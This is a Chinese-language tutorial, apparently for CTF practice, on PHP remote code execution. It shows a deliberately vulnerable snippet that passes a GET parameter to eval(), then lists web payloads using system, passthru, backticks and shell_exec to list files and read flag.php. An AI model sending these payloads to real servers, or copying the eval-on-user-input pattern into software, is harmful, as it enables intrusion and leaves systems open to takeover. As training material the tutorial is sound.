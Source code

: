 
# 前言

RCE（Remote Code Execution，远程代码执行）漏洞是指攻击者通过漏洞，能够在目标系统上远程执行任意代码的安全漏洞。这种漏洞通常允许攻击者在受害主机上执行恶意命令，可能导致系统被完全控制，甚至可能被用来执行系统级操作，如删除文件、窃取敏感数据、安装恶意软件等。  

---

# 一. 命令执行函数

以下函数都应当在 `eval` 中执行

```php
error_reporting(0);   
if(isset($_GET['c'])){        
    $c = $_GET['c'];                
    eval($c);       
}else{    
    highlight_file(__FILE__);   
}
```

## 1.1 system函数命令执行

通过 `system` 函数执行操作系统的 `shell` 命令并输出结果

```c
?c=system("ls");
?c=system("tac flag.php");
```

## 1.2 passthru函数命令执行

`passthru` 与 `system` 类似

```c
?c=passthru("ls");
```

## 1.3 echo+反引号命令执行

用反引号执行 `shell` 命令，但反引号执行完命令不会自动输出，需要配合 `echo` 输出结果

```c
?c=echo `ls`;
?c=echo `tac flag.php`;
```

## 1.4 shell_exec函数命令执行

`shell_exec` 与反引号类似，只执行但不返回结果，需配合 `echo` 输出

```c
?c=echo shell_exec("ls");
?c=echo shell_exec("tac flag.php");
```

---